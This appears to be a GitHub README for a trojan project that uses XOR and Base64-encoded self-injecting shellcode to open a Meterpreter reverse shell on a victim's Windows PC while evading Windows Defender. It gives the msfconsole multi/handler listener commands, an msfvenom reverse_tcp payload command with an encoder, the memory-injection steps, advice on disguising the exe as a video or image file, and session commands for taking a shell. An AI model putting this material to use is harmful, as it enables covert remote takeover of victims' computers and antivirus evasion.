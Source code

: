 # Encrypted-Trojan-Undetected
Encrypted self-injection malware that creates a shell on a victim's pc, using Xor and Base64 encryption, UNDETECTED by Windows defender.

# 💻 Code (Encryption)

The first code is a very basic encryption using python, the second one uses a Xor based encryption and the third one a base64 encoding based encryption, the shellcodes are released with a very simple self injection process i showed in a previous repo: [here](https://github.com/Hue-Jhan/Self-Injection-Reverse-Shell-Undetected), therefore i will not explain everything in detail.

# Python

# 💻 Code (Self Injection)

**Step by step guide**:
- First we define the base64 shellcode (make sure architecute is set to x86 and encoding to utf8 for the message box payload;
- Secondly we allocate the memory, write shellcode to the allocated memory, and make it readable, writable, and executable, allowing the shellcode to run.
- Then the code copies the shellcode into the newly allocated memory;
- It creates a new thread to execute the shellcode, since allocated_mem (which contains the shellcode) is cast to the function pointer type LPTHREAD_START_ROUTINE;

Finally we wait for the created thread (which is running the shellcode) to finish executing before freeing the memory.

---

- **Listener**: <img align="right" src="media/rev3.jpg" width="310" />

On the attacker's machine i used the classic multi handler exploit to run the payload: 

``` msfconsole ```

``` use exploit multi/handler  ```

``` set payload windows/meterpreter/reverse_tcp ```

``` set lhost XXX ```

``` set lport XXX ```

``` exploit ```

---

- **Payload**: <img align="right" src="media/rev2.jpg" width="240" />

The payload is, as i said before, a simple non-encrypted base64 shellcode, you can make it with:

``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=XXX LPORT=XXXX -f c ```.

You can add a simple encryption by adding this ``` -e x86/shikata_ga_nai -f c  ```. 

In the future i will attempt to create my own encryption, since the well known ones are already pretty much detectable. 

---

- **Shell**

You can embed the code into pretty much anything, you can even use tools to mask the exe file into a mp4 or jpg file, complete with a new icon and a name, even the extension can be masked.
Once the victim runs the exe, a new session will pop up on meterpreter, and u can view it and use it with: <img align="right" src="media/rev1.jpg" width="400" />

``` sessions ```

``` sessions -i 1```

``` shell ```

Here is an example of writing powershell code through meterpreter     --------->

In this example it was a simple message box error, which worked smoothly.

---

# 🛡 AV Detection

<img align="right" src="media/vt1.png" width="350" />

The payload is currently undetected by windows defender, but it's easily blocked by Bitdefender, even the free trial.

Something i don't understand is why Virus Total says that bitdefender won't classify the exe file as malicious, while Microsoft, which should technically be windows defender (?) recognizes the malware.... it should be the exact opposite but idk, you can see bitdefender on the top left corner of the second pic.

As i said before, you can add a simple shikata ga nai encryption or use online tools like shoggoth or idk. <img align="right" src="media/vt2.png" width="260" />

Soon i will create my own simple encryption using python : )

The only problem is decrypting the base64, ill have to find a way to basically use both c++ and python somehow.... 

Last thing: i run the malware using Termux, an android emulator for linux, because i didnt wanna setup networking stuff for my kali vm, cuz i had some issues trying to establish the session.

